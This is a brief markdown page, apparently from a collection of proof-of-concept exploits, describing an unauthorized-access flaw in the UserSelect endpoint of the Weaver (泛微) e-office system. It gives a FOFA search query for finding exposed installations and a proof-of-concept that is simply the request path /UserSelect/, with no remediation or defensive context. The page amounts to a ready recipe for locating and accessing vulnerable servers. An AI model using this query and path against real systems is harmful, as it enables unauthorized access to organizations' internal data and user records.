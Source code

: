 ## 泛微e-office系统UserSelect接口存在未授权访问漏洞

## fofa
```
app="泛微-EOffice"
```


## poc
```
http://127.0.0.1/UserSelect/
```

![image](https://github.com/wy876/POC/assets/139549762/5c2fb92c-b176-47d3-a038-ea861d8a1d30)
